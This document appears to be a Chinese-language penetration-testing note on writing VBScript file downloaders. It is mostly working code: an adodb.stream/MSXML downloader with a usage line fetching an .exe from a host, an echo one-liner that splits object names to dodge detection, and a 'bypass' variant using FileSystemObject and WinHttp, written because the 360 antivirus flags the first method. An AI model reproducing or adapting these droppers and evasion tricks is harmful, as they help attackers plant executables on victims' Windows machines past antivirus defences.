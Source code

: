 
## vbs下载文件

VBScript是Visual Basic Script的简称，有时也被缩写为VBS。VBScript是微软开发的一种脚本语言，可以看作是VB语言的简化版，与Visual Basic for Applications的关系也非常密切。它具有原语言容易学习的特性。目前这种语言广泛应用于网页和ASP程序制作，同时还可以直接作为一个可执行程序。用于调试简单的VB语句非常方便。

在VBS中常用的文件流操作命令为Scripting.FileSystemObject和adodb.stream这两个，一般来说，会利用这两个方法来构造下载的vbs脚本。

利用adodb.stream下载文件

```vbscript
Set objXMLHTTP = CreateObject("Msxml2.ServerXMLHTTP.6.0")
Set Astream = CreateObject("adodb.stream")
objXMLHTTP.open "GET",wsh.arguments(0),0
objXMLHTTP.send
Astream.type=1
Astream.Mode=3
Astream.open
Astream.Write objXMLHTTP.responseBody //360会杀这个写入
Astream.SaveToFile wsh.arguments(1),2

// 执行
cscript example.vbs http://example.com/1.exe 1.exe
```



代码较为简单，支持利用echo来进行写入

```
// 一句话写入版
echo set a=createobject(^"adod^"+^"b.stream^"):set w=createobject(^"micro^"+^"soft.xmlhttp^"):w.open ^"get^",wsh.arguments(0),0:w.send:a.type=1:a.open:a.write w.responsebody:a.savetofile wsh.arguments(1),2 >> d.vbs
```

### bypass

经过测试360发现，应该是国内利用adodb.stream的人太多了，然后被360进行了重点标记。所以，我们选择尝试利用FileSystemObject来对文件进行写入。

代码如下：

```vbscript
Sub HTTPDownload( myURL, myPath )
    Dim i, objFile, objFSO, objHTTP, strFile, strMsg
    Const ForReading = 1, ForWriting = 2, ForAppending = 8
    Set objFSO = CreateObject( "Scripting.FileSystemObject" )
    strFile = objFSO.BuildPath( myPath, Mid( myURL, InStrRev( myURL, "/" ) + 1 ) )
    Set objFile = objFSO.OpenTextFile( strFile, ForWriting, True )
    Set objHTTP = CreateObject( "WinHttp.WinHttpRequest.5.1" )
    objHTTP.Open "GET", myURL, False
    objHTTP.Send
    For i = 1 To LenB( objHTTP.ResponseBody )
        objFile.Write Chr( AscB( MidB( objHTTP.ResponseBody, i, 1 ) ) )
    Next
    objFile.Close( )
End Sub
HTTPDownload wsh.arguments(0), wsh.arguments(1)
```
